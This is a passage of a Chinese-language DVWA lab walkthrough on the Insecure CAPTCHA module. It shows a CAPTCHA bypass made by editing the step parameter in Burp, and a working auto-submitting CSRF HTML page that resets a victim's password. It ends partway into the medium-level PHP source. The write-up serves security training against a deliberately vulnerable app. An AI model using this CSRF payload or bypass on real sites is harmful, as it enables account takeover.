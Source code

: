 服务器将改密码操作分为两步，第一步检查用户输入的验证码，验证通过后，服务器返回表单，第二步客户端提交post请求，服务器完成更改密码的操作。但是，这种存在明显的逻辑漏洞，服务器仅仅通过检查Change、step参数来判断用户是否已经输入了正确的验证码。

+ 可以通过用burp抓包修改参数来绕过验证：

[![rbzNHH.png](https://s3.ax1x.com/2020/12/29/rbzNHH.png)](https://imgchr.com/i/rbzNHH)

(ps:因为没有翻墙，所以没有成功显示验证码，发送的请求包也就没有**recaptcha_challenge_field**，**recaptcha_response_field**两个参数)

更改step参数绕过验证码：

[![rbzf5n.png](https://s3.ax1x.com/2020/12/29/rbzf5n.png)](https://imgchr.com/i/rbzf5n)

修改密码成功：

[![rbz580.png](https://s3.ax1x.com/2020/12/29/rbz580.png)](https://imgchr.com/i/rbz580)

+ 由于没有做任何的放CSRF机制，我们可以构造攻击页面：

```
<html>
<body onload="document.getElementById('transfer').submit()"
	<div>
		<form method="POST" id="transfer" action="http://192.168.216.129/dvwa/vulnerabilities/captcha/">
			<input type="hidden" name="password_new" value="password">
			<input type="hidden" name="password_conf" value="password">
			<input type="hidden" name="step" value="2">
			<input type="hidden" name="Change" value="Change">
		</form>
	</div>
</body>
</html>
```

当目标点击这个页面后，脚本会伪造改密请求发送给服务器

[![rqiD8s.md.png](https://s3.ax1x.com/2020/12/29/rqiD8s.md.png)](https://imgchr.com/i/rqiD8s)

但是成功后会返回密码修改成功的页面，有点小尴尬啊。

[![rqi6K0.png](https://s3.ax1x.com/2020/12/29/rqi6K0.png)](https://imgchr.com/i/rqi6K0)

##### medium

```
<?php

if( isset( $_POST[ 'Change' ] ) && ( $_POST[ 'step' ] == '1' ) ) {
    // Hide the CAPTCHA form
    $hide_form = true;

    // Get input
    $pass_new  = $_POST[ 'password_new' ];
    $pass_conf = $_POST[ 'password_conf' ];

    // Check CAPTCHA from 3rd party
    $resp = recaptcha_check_answer(
        $_DVWA[ 'recaptcha_private_key' ],
        $_POST['g-recaptcha-response']
    );

    // Did the CAPTCHA fail?
    if( !$resp ) {
        // What happens when the CAPTCHA was entered incorrectly
        $html     .= "<pre><br />The CAPTCHA was incorrect. Please try again.</pre>";
        $hide_form = false;
        return;
    }
    else {
        // CAPTCHA was correct. Do both new passwords match?
```